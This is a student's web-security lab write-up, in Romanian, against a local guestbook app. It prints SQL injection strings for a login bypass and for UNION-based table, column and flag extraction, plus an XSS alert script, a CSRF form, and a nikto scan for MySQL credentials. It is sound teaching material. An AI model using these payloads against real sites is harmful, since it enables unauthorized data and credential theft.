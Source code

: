 # Laborator 8 - Web Security
## Cerinta 1
serverul ruleaza direct un query-ul urmator SQL cu stringurile date la login:
```sql
SELECT * FROM tabela WHERE username=<user> AND PASSWORD=<passwd> LIMIT 	1
```

Ca regula sa dea match pe `username` ii dau un string care se evalueaza la
`true`: `' or 1-- `. `--` fac ca restul comenzii, pana la `'` sa fie comentat.
E nevoie si de o parola astfel incat query-ul sa fie corect sintactic. poate fi
orice, sau chiar nimic.


## Cerinta 2
Mega jegoasa ca e neoie de destul de mult *SQL*. Boikea pls...

1. In primul rand, trebuie sa vedem cate coloane intoarce query-ul de mai sus.
Pentru asta, incercam sa ordonam rezultatul interogarii in functie de fiecare
coloana, pana crapa. Incercand sa ne logam cu
`' or 1 order by 1,2,3,4,5,6,7,8,9,10-- ` vedem ca interogarea crapa la coloana
5. Asadar, sunt 4 coloane.

2. Acum trebuie sa gasim tabelele din schema `guestbook`. Pentru asta, ne logam
cu:
```
' union select 1, 2, 3, group_concat(table_name separator ',') from information_schema.tables where table_schema='guestbook' --
```
Observam ca tabelele din baza de date sunt `entries`, `flags` si `users`. Cel
mai probabil cea care ne intereseaza este `flags`.

3. In mod similar, avem nevoie sa stim care e coloana cu flagul propriu-zis.
Mai intai aflam numele tuturor coloanelor din tabela `falgs` astfel:
```
' union select 1, 2, 3, group_concat(column_name separator ',') from information_schema.columns where table_schema='guestbook' and table_name='flags' --
```
Numele coloanelor sunt `id`, `name` si `flag`. Probabil flagul se afla in
coloana `flag`.

4. Acum doar selectam flagul din tabela astfel:
```
' union select 1, 2, 3, flag from guestbook.flags --
```
si obtinem flagul: `SpeishFlag{th1sw4sSQL1nj3cti0n}`.


## Cerinta 3
Orice mesaj scris in chenarul din server e interpretat ca *HTML*. Din motivul
asta, orice script e bagat in *HTML*-ul ala e si executat. Asadar, mesajul
contine:
```html
<script>
alert("Manele!");
</script> 
```
si genereaza un "dialog box" in care scrie "Manele!"


## Cerinta 4
Am gasit urmatorul `form` in codul *HTML* al guestbookului:
```html
<form method="post" action="/guestbook/post">
  <p>
    <div><label for="message">Message:</label></div>
    <textarea id="message" name="message" rows="3" cols="80"></textarea>
  </p>
  <p>
    <input type="submit" value="Send">
  </p>
</form>
```
Eu l-am copiat local si l-am modificat astfel incat apasand pe butonul
"Click aicea" sa se posteze prin *POST* mesajul "Manele 2022!" pe guestbook:
```html
<form method="post" action="http://localhost:8080/guestbook/post">
  <p>
    <label>Boss:</label>
    <input type="hidden" id="message" name="message" value="Manele 2022">
  </p>
  <p>
    <input type="submit" value="Click aicea">
  </p>
</form>
```


## Cerinta 5
Trebuie gasit fisierul *JavaScript* cu care ruleaza site-ul si cautate in el
credentialele pentru conectarea la *MySQL*. Pentru asta, am folosesit utilitarul
`nikto`, care scaneaza serverul si gaseste fisierul `server.js`, care poate fi
obtinut printr-un `curl` si pe care l-am adaugat si in arhiva.
